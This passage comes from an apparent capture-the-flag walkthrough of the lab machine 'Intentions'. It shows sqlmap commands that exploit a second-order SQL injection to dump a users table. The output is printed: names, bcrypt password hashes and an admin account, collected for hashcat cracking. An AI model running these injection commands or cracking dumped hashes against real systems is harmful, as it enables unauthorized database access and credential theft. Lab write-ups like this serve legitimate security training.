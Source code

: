 ```
sqlmap -r post-genres --second-req=get-feed -vv --level 5 --risk 3 --dbms=mysql --technique=B --tamper=space2comment --dump -D intentions -T users -C name,password
```

It took fooooreeeever, but I finally got a list of names and hashes. Here they are, assembled for cracking with hashcat later:

```
Camren Ullrich:$2y$10$WkBf7NFjzE5GI5SP7hB5/uA9Bi/BmoNFIUfhBye4gUql/JIc/GTE2
Desmond Greenfelder:$2y$10$.VfxnlYhad5YPvanmSt3L.5tGaTa4/dXv1jnfBVCpaR2h.SDDioy2
Dr. Chelsie Greenholt I:$2y$10$by.sn.tdh2V1swiDijAZpe1bUpfQr6ZjNUIkug8LSdR2ZVdS9bR7W
Eugene Okuneva I:$2y$10$k/yUU3iPYEvQRBetaF6GpuxAwapReAPUU8Kd1C0Iygu.JQ/Cllvgy
Eula Shields:$2y$10$0fkHzVJ7paAx0rYErFAtA.2MpKY/ny1.kp/qFzU22t0aBNJHEMkg2
Florence Crona:$2y$10$NDW.r.M5zfl8yDT6rJTcjemJb0YzrJ6gl6tN.iohUugld3EZQZkQy
greg:$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m
Jarrett Bayer:$2y$10$yUpaabSbUpbfNIDzvXUrn.1O8I6LbxuK63GqzrWOyEt8DRd0ljyKS
Jasen Mosciski:$2y$10$oKGH6f8KdEblk6hzkqa2meqyDeiy5gOSSfMeygzoFJ9d1eqgiD2rW
Jayson Strosin:$2y$10$Gy9v3MDkk5cWO40.H6sJ5uwYJCAlzxf/OhpXbkklsHoLdA8aVt3Ei
Macy Walter:$2y$10$01SOJhuW9WzULsWQHspsde3vVKt6VwNADSWY45Ji33lKn7sSvIxIm
Madisyn Reinger DDS:$2y$10$GDyg.hs4VqBhGlCBFb5dDO6Y0bwb87CPmgFLubYEdHLDXZVyn3lUW
Mariano Corwin:$2y$10$p.QL52DVRRHvSM121QCIFOJnAHuVPG5gJDB/N2/lf76YTn1FQGiya
Melisa Runolfsson:$2y$10$bymjBxAEluQZEc1O7r1h3OdmlHJpTFJ6CqL1x2ZfQ3paSf509bUJ6
Monique D'Amore:$2y$10$pAMvp3xPODhnm38lnbwPYuZN0B/0nnHyTSMf1pbEoz6Ghjq.ecA7.
Mr. Lucius Towne I:$2y$10$JembrsnTWIgDZH3vFo1qT.Zf/hbphiPj1vGdVMXCk56icvD6mn/ae
Mrs. Rhianna Hahn DDS:$2y$10$0aYgz4DMuXe1gm5/aT.gTe0kgiEKO1xf/7ank4EW1s6ISt1Khs8Ma
Mrs. Roxanne Raynor:$2y$10$UD1HYmPNuqsWXwhyXSW2d.CawOv1C8QZknUBRgg3/Kx82hjqbJFMO
Prof. Devan Ortiz DDS:$2y$10$I7I4W5pfcLwu3O/wJwAeJ.xqukO924Tx6WHz1am.PtEXFiFhZUd9S
Prof. Gina Brekke:$2y$10$UnvH8xiHiZa.wryeO1O5IuARzkwbFogWqE7x74O1we9HYspsv9b2.
Prof. Johanna Ullrich MD:$2y$10$9Yf1zb0jwxqeSnzS9CymsevVGLWIDYI4fQRF5704bMN8Vd4vkvvHi
Prof. Margret Von Jr.:$2y$10$stXFuM4ct/eKhUfu09JCVOXCTOQLhDQ4CFjlIstypyRUGazqmNpCa
Rose Rutherford:$2y$10$4nxh9pJV0HmqEdq9sKRjKuHshmloVH1eH0mSBMzfzx/kpO/XcKw1m
steve:$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa
Tod Casper:$2y$10$S5pjACbhVo9SGO4Be8hQY.Rn87sg10BTQErH3tChanxipQOe9l7Ou
Viola Vandervort DVM:$2y$10$iGDL/XqpsqG.uu875Sp2XOaczC6A3GfO5eOz1kL1k5GMVZMipZPpa
Zelda Jenkins:$2y$10$/2wLaoWygrWELes242Cq6Ol3UUx5MmZ31Eqq91Kgm2O8S.39cv9L2
```

Immediately, something looks funny. Most of these people have ridiculous usernames, then there are two that are a single, short, anglo name: **greg** and **steve**. :man: :man:

I'll try getting more information on those two users.

First up, **greg**

```bash
sqlmap -r post-genres --second-req=get-feed -vv --level 5 --risk 3 --dbms=mysql --technique=B --tamper=space2comment --dump -D intentions -T users -C name,email,password,admin --where='name="greg"'
```

![db dump 4](db%20dump%204.png)

Here it is in tabular format, for copy-pasting:

| Field    | Value                                                        |
| -------- | ------------------------------------------------------------ |
| name     | greg                                                         |
| email    | greg@intentions.htb                                          |
| password | $2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m |
| admin    | 1                                                            |
